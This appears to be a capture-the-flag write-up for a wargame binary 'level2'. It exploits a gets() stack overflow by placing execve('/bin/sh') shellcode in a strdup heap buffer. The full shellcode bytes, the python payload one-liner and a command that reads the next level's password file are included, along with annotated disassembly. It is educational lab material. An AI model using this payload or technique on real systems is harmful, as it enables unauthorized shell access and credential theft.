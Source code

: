 - attack: buffer overflow with indirect shell call
- binary behavior: reprints argument
- targeted functions: p and main
- vulnerability in main: gets()
- vulnerability in p: strdup()
- defense: no stack overwirting is possible because of comparison of eip address with predefined eip address 

Method:
- find the offset padding size
- overflow the binary
- find the buffer address used by strdup
- overwrite buffer by code calling shell
- overwrite eip by the buffer address
- cat passwd when get console with root privedges

Shell code: 52 http://shell-storm.org/shellcode/files/shellcode-863.html
"\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68"   

Info:
- 0x0804a008 - buffer address
- 0x08a00480 - same in little-endian
- same in hex - \x08\xa0\x04\x08

- offset of eip register - 80 (from wiremask.eu)
- offset code structure: 80 = 4 (return address) + 52 (shell code) + 28

QA
- How do we know buffer address?
- ltrace() and see address of strdup

Code:
objdump -d ./level2
ltrace ./level2 

gdb level2
(gdb) r <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4
Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
(python -c 'print "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68"  + "a" * 28 + "\x08\xa0\x04\x08"';cat) | ./level2
whoami
cat /home/user/level3/.pass


Functions

main
0804853f <main>:
 804853f:       55                      push   %ebp
 8048540:       89 e5                   mov    %esp,%ebp
 8048542:       83 e4 f0                and    $0xfffffff0,%esp
 8048545:       e8 8a ff ff ff          call   80484d4 <p>      #call function p
 804854a:       c9                      leave
 804854b:       c3                      ret

p

080484d4 <p>:
 80484d4:       55                      push   %ebp
 80484d5:       89 e5                   mov    %esp,%ebp
 80484d7:       83 ec 68                sub    $0x68,%esp   # 104
 80484da:       a1 60 98 04 08          mov    0x8049860,%eax
 80484df:       89 04 24                mov    %eax,(%esp)
 80484e2:       e8 c9 fe ff ff          call   80483b0 <fflush@plt>
 80484e7:       8d 45 b4                lea    -0x4c(%ebp),%eax #76
 80484ea:       89 04 24                mov    %eax,(%esp)
 80484ed:       e8 ce fe ff ff          call   80483c0 <gets@plt>
 80484f2:       8b 45 04                mov    0x4(%ebp),%eax
 80484f5:       89 45 f4                mov    %eax,-0xc(%ebp)
 80484f8:       8b 45 f4                mov    -0xc(%ebp),%eax
 80484fb:       25 00 00 00 b0          and    $0xb0000000,%eax #defence
 8048500:       3d 00 00 00 b0          cmp    $0xb0000000,%eax #defence
 8048505:       75 20                   jne    8048527 <p+0x53>
 8048507:       b8 20 86 04 08          mov    $0x8048620,%eax
 804850c:       8b 55 f4                mov    -0xc(%ebp),%edx
 804850f:       89 54 24 04             mov    %edx,0x4(%esp)
 8048513:       89 04 24                mov    %eax,(%esp)
 8048516:       e8 85 fe ff ff          call   80483a0 <printf@plt>
 804851b:       c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 8048522:       e8 a9 fe ff ff          call   80483d0 <_exit@plt>
 8048527:       8d 45 b4                lea    -0x4c(%ebp),%eax
 804852a:       89 04 24                mov    %eax,(%esp)
 804852d:       e8 be fe ff ff          call   80483f0 <puts@plt>
 8048532:       8d 45 b4                lea    -0x4c(%ebp),%eax
 8048535:       89 04 24                mov    %eax,(%esp)
 8048538:       e8 a3 fe ff ff          call   80483e0 <strdup@plt> #exploit
 804853d:       c9                      leave
 804853e:       c3                      ret



 
             